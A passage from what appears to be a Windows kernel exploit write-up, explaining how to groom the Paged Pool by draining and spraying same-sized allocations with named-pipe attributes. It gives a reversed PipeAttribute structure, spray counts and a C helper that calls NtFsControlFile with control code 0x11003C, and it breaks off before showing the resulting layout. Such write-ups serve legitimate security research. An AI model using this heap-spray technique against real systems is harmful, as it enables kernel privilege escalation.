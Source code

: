 The first step is to allocate a lot of chunks of the same size as our vuln object. So we drain every already freed object within the bucket and then allocate a lot of objects we have control over in terms of which and when we want to free them. In my exploit I sprayed `0x20000` times for the draining part and `30*0x80` times for the spraying part. The amout for the draining part is likely way to much for the LFH, but I used that value at one time and after confirming that it works and I get the layout I want most of the time, I left it as it is. So what do we use to spray? The Synacktiv guys figured out that `PipeAttributes` are put on the Paged Heap and that we have much control over them in terms of size, data control and when to allocate or free them. The structure is not public but they reversed it and it looks like this:

```c
struct PipeAttribute {
    LIST_ENTRY list ;
    char * AttributeName ;
    uint64_t AttributeValueSize ;
    char * AttributeValue ;
    char data [0];
};
```

`AttributeName` and `AttributeValue` are pointers into the `data` segment. We will abuse these pointers in two different ways in the coming sections.

To allocate such a (populated) structure they also published code:

```c
int set_pipe_attribute(pipe_pair_t* target_pipe, char* data, size_t size)
{
    IO_STATUS_BLOCK status;
    char output[0x100];

    memset(output, 0x42, 0xff);

    NtFsControlFile(target_pipe->write,
        NULL,
        NULL,
        NULL,
        &status,
        0x11003C, //0x11002C for arg of set attribute is 2
        data,
        size,
        output,
        sizeof(output)
    );
    return 1;
}
```

So you call `NtFsControlFile` with a control code of `0x11003C` to set a pipe attribute, which is then allocated on the Paged Pool, and this is how we spray.


The allocations for the draining part and spraying part will be of size `sizeof(vulnerable_object) + sizeof(POOL_HEADER)` hence leading to `0x143 + 0x10` in our case. Both will end up in the `0x160` buckets as every bucket is `0x10` bytes aligned. The layout should look like:
